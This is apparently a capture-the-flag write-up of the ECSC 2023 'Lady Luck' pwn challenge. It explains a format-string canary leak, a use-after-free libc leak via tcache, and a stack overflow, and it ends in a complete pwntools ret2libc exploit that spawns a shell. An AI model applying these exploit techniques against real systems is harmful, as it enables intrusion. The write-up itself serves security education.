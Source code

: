 ```yaml
---
id: 17
title: "ECSC 2023: Lady Luck"
subtitle: "ECSC 2023 Day 3: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c, c++, pwn, ctf"
---
```


## Foreword

This challenge was a lot more interesting than those on Day 1. It featured a use-after-free to leak libc address, though the challenge overall is still a ret2libc challenge.

# Lady Luck

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d3/ladyluck/lady_luck'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

It has everything enabled. This means we potentially need to watch out for the canary as well as the PIE offset.

We open the binary in IDA and see that it's a menu based application.
```c
buf = 0;
v5 = 0;
fwrite(&unk_2508, 1uLL, 0x79uLL, stdout);
option1 = read_num();
if ( !option1 || option1 > 3 )
{
  puts("\nAre you trying to cheat Lady Luck?!\n");
  exit(1312);
}
fwrite(&unk_25B0, 1uLL, 0x66uLL, stdout);
read(0, &buf, 6uLL);
fflush(stdin);
if ( !strcmp((const char *)&buf, "fr33c01n5f0r3v3ry0n3") )
{
  coins = 0x174876E7FFLL;
}
else
{
  fprintf(stdout, "\n%s[-] Sorry, this is not correct: ", "\x1B[1;31m");
  fprintf(stdout, (const char *)&buf);
  puts("\x1B[1;34m");
}
menu();
```

There is a format string exploit with an input of up to length 6 in `main()` before it goes into menu. We can thus use it to leak the canary `%8$p`.

Decompiling `menu()` and all its subfunctions, we find out that `buy_pots()` restricts the potions you can buy to a maximum size of `0x82`.
```c
fwrite("\nml: ", 1uLL, 5uLL, stdout);
psize = read_num();
if ( psize <= 0x82 && psize )
{
  if ( check_coins(20 * psize) )
    coins -= 20 * psize;
  fwrite("\nSlot to place it: ", 1uLL, 0x13uLL, stdout);
  pindex = read_num();
  if ( pindex > 9 )
    goto LABEL_13;
  red_pots[pindex] = (char *)malloc(psize);
  strcpy(red_pots[pindex], "Lucky Red    potion x1");
}
```

`sell_pots()` calls `free()` but does not reset the pointer, which allows for a use-after-free or related bugs.
```c
free(red_pots[index]);
fprintf(stdout, "%s\n[+] Sold! You got back 20 coins!%s\n\n", "\x1B[1;32m", "\x1B[1;34m");
coins += 20LL;
```

`show_inventory()` will list out everything in the inventory, *including the freed elements in the array* due to the pointer not being set to null after `free()` (use-after-free!). This can be used to leak whatever we can get by calling `sell_pots()`.
```c
for ( i = 0LL; i <= 9; ++i )
{
  if ( red_pots[i] )
    fprintf(stdout, "Slot [%d]: %s\n", i, red_pots[i]);
  else
    fprintf(stdout, "Slot [%d]: Empty\n", i);
}
```

`discount_code()` defines an input buffer of length `0x80` but allows the user to input up to `0xB7` bytes with `fgets()`, which allows for buffer overflow.
```c
memset(y, 0, 128);
fwrite(
"\nI will tell you the lucky phrase for your next purchase, but you need to give me a good reason why: \n\n",
1uLL,
0x67uLL,
stdout);
fgets(y, 0xB7, stdin);
fwrite("Your code is: [fr33c01n5f0r3v3ry0n3]\n", 1uLL, 0x25uLL, stdout);
```

We can leak the libc address by buying 8 potions of length `0x82` then selling all of them. This is due to the way the tcache bins work (7 same-sized bins), and because of the use-after-free caused by the bad `free()` usage, we can leak the pointer to the 8th freed bin which would point to the main arena.

We still need to keep the top chunk in place to prevent coalescing, so theoretically we need to buy index 0-8 and sell index 0-7, then show index 7. We see a `0x7f` byte in gdb which tells we leaked some address in libc (since it points to the main arena). We set a breakpoint at `show_inventory()` and see our leaked address. Then we can simply `xinfo` to find the static offset to libc base, which is `0x219ce0`.

Chaining everything together, we have:
1. Leak canary with fsb
2. Leak libc with `buy_pots()`, `sell_pots()` and `show_inventory()`
3. Buffer overflow and ret2libc

We can automate the process with pwntools:
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./lady_luck", checksec=False)
# context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6")

# Run binary 1st time
p = exploit_source("./lady_luck", "localhost", gdbscript="b show_inventory")

def sell(n):
	p.sendlineafter(">>", "2")
	p.sendlineafter(":", str(n))

def buy(n):
	p.sendlineafter(">>", "1")
	p.sendlineafter(":", str(0x82))
	p.sendlineafter(":", str(n))

def inventory():
	p.sendlineafter(">>", "3")

# Leak canary
p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendlineafter(": ", "%8$p")
p.recvuntil(": ")
canary = int(p.recvline(), 16)
info(f"{hex(canary) =}")

p.sendlineafter(">>", "1")

# allocate 9 bins, free 8 to fill up tcache and get a pointer to the main arena on bin #8
for i in range(10):
	buy(i)

p.sendlineafter(">>", "3")

for i in range(9):
	sell(i)

# leak main arena address, calcullate libc base
inventory()

p.recvuntil("[7]: ")
libc.address = u64(p.recvline().rstrip(b'\n').ljust(8,b'\x00')) - 0x219ce0
success(f"{hex(libc.address) =}")

# perform bof and ret2libc
p.sendlineafter(":", "4")

rop = ROP(libc)

rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh")))

payload = flat({0x88: p64(canary), 0x90: p64(0) + rop.chain()})

p.sendafter(":", payload)

p.interactive()
```

`cat flag.txt` for the flag.

## Afterword

The most fun challenge out of all the rest because of the different layers that went into this, from leaking canary to getting a libc address, before finally sending the final payload to pop shell. Honestly I think it would've been easier if I had stronger knowledge on tcache and bins, but nonetheless it was kinda fun.

Throughout the competition, huge thanks to all my teammates for working tirelessly and especially [enigmatrix](https://enigmatrix.me) for his guidance with solving the pwn challenges.

Thanks for reading!
